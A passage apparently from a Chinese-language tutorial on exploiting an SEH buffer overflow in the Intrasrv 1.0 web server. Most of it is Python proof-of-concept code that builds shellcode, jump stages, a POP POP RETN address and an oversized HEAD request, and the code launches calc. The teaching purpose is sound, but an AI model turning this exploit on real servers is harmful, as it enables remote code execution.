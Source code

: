 ```
shellcode_calc += "\x55\xdb\xd7\x34\x27\x74\xb2\x3a\x94\x75"
shellcode_calc += "\x97\x58\x7b\xe6\x7b\xb1\x1e\x8e\x1e\xcd"

# SEH handler overwritten with - 43336143
# [*] Exact match at offset 1569
# Log data, item 23
# Address=0BADF00D
# Message = SEH record (nseh field) at 0x0018ff78 overwritten with normal pa$

nseh_stage1 = "\x90\x90\xEB\xF6" # JMP back 10 bytes
jmp450_stage2 = "\x90\x90\x90\xE9\x3E\xFE\xFF\xFF" # Have it hit our long jump back 450
seh_handler = pack('<L', 0x004097dd) # our POP POP RETN from intrasrv.exe

# 0x004097dd : pop eax # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [intrasrv.exe]
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\john\Desktop\intrasrv.exe)

exploit_payload = "A" * (1553 - len(shellcode) - 8) + shellcode
exploit_payload += jmp450_stage2
exploit_payload += nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
	print("[*] Watch for a spawned calc")
except:
	print("[!] Exploit failed to send")
```

上述漏洞直接取自 Fu11pwnops 的文章，并使用 msfvenom 生成外壳代码，该代码将在处理 HEAD 请求时弹出一个计算器。

希望这篇文章能让你了解一些防止缓冲区溢出的最基本的保护措施，以及一些我们可以部署来绕过它们的策略(多阶段跳转、鸡蛋猎人等)。